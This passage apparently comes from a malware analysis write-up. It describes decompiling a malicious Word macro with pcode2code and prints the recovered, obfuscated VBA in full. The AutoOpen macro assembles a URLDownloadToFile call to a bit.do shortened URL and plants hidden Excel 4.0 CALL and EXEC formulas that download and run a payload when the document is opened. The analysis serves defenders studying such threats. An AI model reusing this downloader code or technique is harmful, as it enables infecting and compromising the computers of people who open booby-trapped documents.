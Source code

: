 Wading through the mess, ASCII strings of interest become apparent which indicate that the macro may use URLDownloadToFile() to pull additional file(s) from a URL shortener known as bit.do.

Attempting to decompile to p-code with pcode2code confirms what was seen in the ASCII contents, as well as additional obfuscation.

{% highlight ruby %}
Sub AutoOpen()
  Dim ExcelSheet As Object
  
  Dim titu, maxi, key, pap, u, l, c, s, q, qw As String
  
  titu = "h" + "tt" + "ps" + "://bit" + ".do/" + "fQUfB"
  
  maxi = ActiveDocument.BuiltInDocumentProperties("Comments").Value
  
  u = "ur" & Chr(108) & Chr(109) & "on"
  
  q = Chr(85) & "R" & Chr(76) & Chr(68) & "own" & Chr(108)
  
  l = q & "oadTo" & Chr(70) & "i" & Chr(108) & "e" & Chr(65)
  
  c = "=CAL" & Chr(76)
  
  s = c & "(""" + u + """, """ + l + """, ""JJCC" & Chr(74)
  
  key = s & "J"", 0, """ + titu + """, """ + maxi + """, 0, 0)"
  
  addition = 3 + 1
  
  mynumber = (12 - 4) - addition
  
  pap = "Example"
  
  Set ExcelSheet = CreateObject("Excel.Application")
  
  Set Workbook = ExcelSheet.Workbooks.Add()
  
  Set WorksheetsD = ExcelSheet.Worksheets
  
  WorksheetsD.Add Before:=WorksheetsD(1), Count:=1, Type:=mynumber
  
  ExcelSheet.Application.Visible = 0
  
  ExcelSheet.Range("A127").Name = pap
  
  ExcelSheet.Range("A127") = "=ERR" + "OR" + "(FALSE)"
  
  ExcelSheet.Application.Cells(129, 1).Value = "=I" + "F(ISNUMBER(SEARCH(""32"",GET.WORKSPACE(1))), GOTO(B127), GOTO(C127))"
  
  ExcelSheet.Application.Cells(129, 2).Value = key
  
  ExcelSheet.Application.Cells(131, 2).Value = "=E" + "XEC(""" + maxi + """)"
  
  ExcelSheet.Range("B133") = "=CLOSE(FALSE)"
  
  ExcelSheet.Application.Cells(129, 3).Value = "=C" + "AL" & Chr(76) & "(""" + u + """, """ + l + """, ""BBCC" & Chr(66) & "B"", 0, """ + titu + """, """ + maxi + """, 0, 0)" + "=E" + "XEC" + "(""" + maxi + """)"
  
  ExcelSheet.Range("C133") = "=C" + "LOSE(FALSE)"
  
  ExcelSheet.Sheets(1).Visible = 2
  
  ExcelSheet.Run pap
  
  ExcelSheet.Application.Quit
  
  Set ExcelSheet = Nothing
  
End Sub
{% endhighlight %}
